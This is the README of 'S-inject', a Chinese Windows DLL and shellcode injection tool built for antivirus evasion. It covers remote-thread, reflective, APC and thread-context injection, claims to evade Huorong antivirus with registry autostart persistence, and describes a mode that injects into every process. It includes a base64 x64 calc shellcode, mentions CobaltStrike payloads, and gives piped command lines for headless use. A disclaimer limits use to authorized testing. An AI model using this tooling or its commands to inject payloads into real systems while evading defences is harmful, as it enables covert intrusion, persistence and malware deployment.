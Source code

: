 ![](https://img.shields.io/badge/joe1sn-S_inject-green)  ![](https://img.shields.io/badge/windows-C++-yellow)

<h1><p align="center">S-inject</p></h1>

<p align="center">DLL+Shellcode的Windows注入免杀工具</p>

<p align="center"><img src="./README.assets/image-20240205141410967.png"></p>

只是罗列各种方法，免杀推荐搭配其他技巧，要具体灵活使用

**须知：**

1. 反射式注入参考了著名github项目：https://github.com/stephenfewer/ReflectiveDLLInjection
   该项目为反射式注入支持的DLL
2. Shellcode使用base64编码后的shellcode
3. 相关测试的DLL文件在`Test Files`文件夹中

**免责声明：** 本工具仅供教育和授权测试目的使用。开发者及贡献者不支持、不鼓励也不赞成任何非法或未经授权的使用。 用户有责任确保其使用本工具的行为符合所有适用的法律法规。严禁将本工具用于任何未经授权的活动。 开发者及贡献者对使用本工具造成的任何损害或后果不承担责任。使用前请自行承担风险。 通过使用本工具，您同意这些条款，并对您的行为承担全部责任。

# Update

- **[2024-3-8]** 更新64位`CreateRemoteThread`为直接系统调用，方法采用`SysWisper3`项目
- **[2024-4-1]** 更新DLL的暴力注入，详细见readme->使用->DLL自动注入/暴力注入
- **[2024-5-16]** 更新远程线程注入，让取消DLL注入更加便捷，便于第二次注入

# 免杀效果

远程shellcode注入等功能可免杀火绒，VNC无感，可注册表添加开机自启动

![image-20240216112653373](./README.assets/image-20240216112653373.png)

![image-20240216113029381](./README.assets/image-20240216113029381.png)

![image-20240216113432922](./README.assets/image-20240216113432922.png)

![image-20240216113917066](./README.assets/image-20240216113917066.png)

# 支持功能

![image-20240205124826998](./README.assets/image-20240205124826998.png)

**DLL注入**

- 远程线程注入
- 反射式注入
- APC调度注入

**Shellcode注入**

- 远程线程注入
- APC调度注入
- Context上下文注入

**可注入进程遍历**

# 使用

非交互式终端使用管道传参

- 注意cmd和powershell的区别
- 注意cmd字符串超过80个会自动换行，推荐搭配powershell

## 一般步骤

1. 运行程序
2. 输入7，遍历出能被注入的进程的pid
3. 选择你的注入方式

## DLL自动注入/遍历注入

- 自动注入

  DLL注入的功能中输入让`pid=0`，如果遇到一个能够被注入的进程那么就会注入，成功注入可能性低

  ![image-20240401105145205](./README.assets/image-20240401105145205.png)

- 暴力注入- **可能对系统造成损害**

  `S-inject.exe <任意值>`，确保启动参数`argc`等于2

  DLL注入的功能中输入让`pid=0`

  程序遍历所有可被注入程序，对每一个能被注入的进程进行DLL注入

  ![image-20240401105329537](./README.assets/image-20240401105329537.png)

## Shellcode注入

这里以64为windows10版本Calc shellcode位例子(虽然会崩溃)
shellcode来源：https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode
base64编码后shellcode

```c
SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==
```

![image-20240205135709302](./README.assets/image-20240205135709302.png)

以CobaltStrike Shellcode为例子

![image-20240205140305351](./README.assets/image-20240205140305351.png)

### 关于使用不可交互终端

可以参考 DLL注入：B, 不可交互终端 部分，尝试利用管道加载

```powershell
#cmd
(echo <option> <base64 Shellcode>) | <S-inject Path>

#powershell
echo "<option index>`n`<pid>`n`<base64 Shellcode>" | <S-inject Path>

#(echo 4`n`16900`n`SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==) |  D:\Github\S-inject\x64\Release\S-inject.exe
```

![image-20240205140815069](./README.assets/image-20240205140815069.png)

## DLL注入

### A, 可交互终端

直接在终端中启动，根据菜单选择功能即可，如枚举可注入进程

![image-20240205125036362](./README.assets/image-20240205125036362.png)

### B, 不可交互终端

因为作者不想增加代码量，单独增添没有必要的参数功能，可以利用管道解决该问题
以下示例使用的注入对象更新前的为`x32dbg`和`x64dbg`，因为一个软件有两个位数的版本，在`x96dbg`中可以选择位数，便于测试

**如远程线程DLL注入**

x64

- powershell

  ```powershell
  echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205131438254](./README.assets/image-20240205131438254.png)

- cmd

  推荐使用powershell启动

  ```powershell
  powershell -c echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #powershell -c echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205131316348](./README.assets/image-20240205131316348.png)

  cmd.exe

  ```
  (echo <option> <DLL Path> &echo <PID>) | <S-inject Path>
  
  #(echo 1 D:\Github\S-inject\Test Files\TestDll_x64.dll &echo 22268) | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205135210534](./README.assets/image-20240205135210534.png)









